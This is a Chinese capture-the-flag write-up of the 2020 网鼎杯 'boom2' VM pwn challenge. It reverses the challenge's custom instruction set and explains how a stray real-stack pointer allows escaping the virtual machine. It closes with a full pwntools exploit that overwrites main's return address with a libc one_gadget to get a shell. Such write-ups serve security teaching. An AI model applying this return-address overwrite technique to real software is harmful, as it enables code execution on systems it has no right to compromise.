







# 【复现】网鼎杯 2020 pwn boom2

> 转载自：[[pwn]VMpwn：2020网鼎杯青龙组pwn boom2 wp](https://blog.csdn.net/Breeze_CAT/article/details/106078982)

#### 题目分析

首先检查一下安全策略：

```shell
[*] './pwn/wdb2020/boom2/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

都着开，然后简单看一下逻辑：

```shell
➜  boom2 ./pwn
MC execution system
Input your code> asd
```

执行之后让你输入code，随便输了一些东西之后就啥也没有了。。。只能逆向看了：

看到程序基本只有一个main函数，几乎全部的逻辑都是在main函数里完成的，可以看到main函数主要部分是一个非常大的switch结构：



**一般情况这种题目都是VM pwn或者是一个解释器。这道题目是一个VM Pwn。**

VM Pwn就是题目自定义了一套指令系统，并且模拟了一套CPU的环境（寄存器、栈等结构）我们需要通过逆向分析题目给定的指令系统，使用这些指令来读写虚拟内存之外的数据，也就是简单的虚拟机逃逸。

本题逻辑不是很复杂：



题目先申请了两个大小为0x40000的内存空间，一块用作虚拟栈，另一块用作我们输入的数据缓冲区。接下来对虚拟站进行了初始化，栈初始结构大概如下：

```shell
sp  : bp(虚拟栈底指针bp)
bp-3: real_stack(真实栈指针)
bp-2: 0
bp-1: 13
bp  : 30
```

可以从gdb中看出栈顶下面的一个地址是指向真实栈空间的：



我们可以利用这一个指向真实栈的地址来进行逃逸。

然后就是一个巨大的switch结构：



大体功能就是，从我们输入的内容中获取一个int64长度的值作为指令，最多执行30个指令。各个指令并不难分析，有一些指令附带立即数（immcode），有一些指令没有，分析结果如下：

```shell
0 immcode: reg=[sp+immcode]
1 immcode: reg=immcode
6 immcode: push bp; bp=sp; sp-=immcode
8 immcode: leave; ret
9        : reg=[reg]
10       : reg=char([reg])
11       : [sp]=reg(int64)
12       : [sp]=reg(byte)
13       : push reg
14       : [sp]=[sp] | reg; pop reg
15       : [sp]=[sp] ^ reg; pop reg
16       : [sp]=[sp] & reg; pop reg
17       : [sp]=[sp] == reg; pop reg
18       : [sp]=[sp] != reg; pop reg
19       : [sp]=[sp] < reg; pop reg
20       : [sp]=[sp] > reg; pop reg
21       : [sp]=[sp] <= reg; pop reg
22       : [sp]=[sp] >= reg; pop reg
23       : [sp]=[sp] << reg; pop reg
24       : [sp]=[sp] >> reg; pop reg
25       : [sp]=[sp] + reg; pop reg
26       : [sp]=[sp] - reg; pop reg
27       : [sp]=[sp] * reg; pop reg
28       : [sp]=[sp] / reg; pop reg
29       : [sp]=[sp] % reg; pop reg
30       : exit
```

#### 漏洞利用
这些指令本身没什么大问题，问题在于虚拟栈初始状态中里面有一个指向实际栈的指针，而我们可以通过加减运算来和9指令就可以获取实际栈上的值（但无法回显，只能参与运算）。通过11和12指令可以改写实际栈上的值。

大体思路就是利用上述修改栈上值的手段修改栈上main函数的返回值为onegadget。首先要看一下有哪些gadget（这里用的是我自己的环境libc-2.27.so，比赛环境libc好像是跟第一题一样）



可以断在main函数返回的地方，来看一下满足哪个onegadget：



可以看出满足第一个onegadget。

然后是计算libc的地址，我们可以直接从栈上寻找：



可以看到main函数的返回地址（libc_start_main+231）正好是libc中的地址。那么我们可以直接通过这个地址计算出onegadget的地址并且覆盖回这个地址就好了（省事了。。。）

虚拟栈中的真实栈指针与返回地址的偏移为：0x7ffc2f666330-0x7ffc2f666248=0xe8

利用步骤如下：

1. 首先进行一次pop将初始栈顶的bp pop出来
2. 这时栈顶就是真实栈指针了，然后利用指令1将reg寄存器置为便宜0xe8，然后利用指令26，让栈指针减0xe8，并利用指令13将结果重新入栈
3. 使用指令9取值，获取返回地址处的值（也就是libc_start_main+231的地址），并用13指令将获取到的值入栈
4. 利用指令1将reg置为libc_start_main+231的偏移值offset，然后利用指令26让libc_start_main+231地址减偏移，得到libc的基址，并用13指令将获取到的libc基址入栈
5. 利用指令1将reg置为onegadget的偏移offset，然后利用指令25计算出libc基址加onegadget偏移，也就是onegadget的地址
6. 这时栈顶是之前步骤2入栈的返回地址指针，利用指令11将onegadget写入覆盖返回地址
7. 然后直接发送即可。

### EXP

```python
from pwn import * 
context.terminal=['tmux','splitw','-h']
p=process("./pwn")
#gdb.attach(p,"""
#b *$rebase(0xa0e)
#b *$rebase(0xa36)
#""")

libc231=0x7f9848c0cb97-0x7f9848beb000
onegadget=0x4f2c5
print p.recv()

payload=p64(14)  #步骤1
payload+=p64(1)+p64(0xe8)+p64(26)+p64(13) #步骤2
payload+=p64(9)+p64(13)   #步骤3
payload+=p64(1)+p64(libc231)+p64(26)+p64(13) #步骤4
payload+=p64(1)+p64(onegadget)+p64(25) #步骤5
payload+=p64(11) #步骤6
p.send(payload) #步骤7

p.interactive()
```

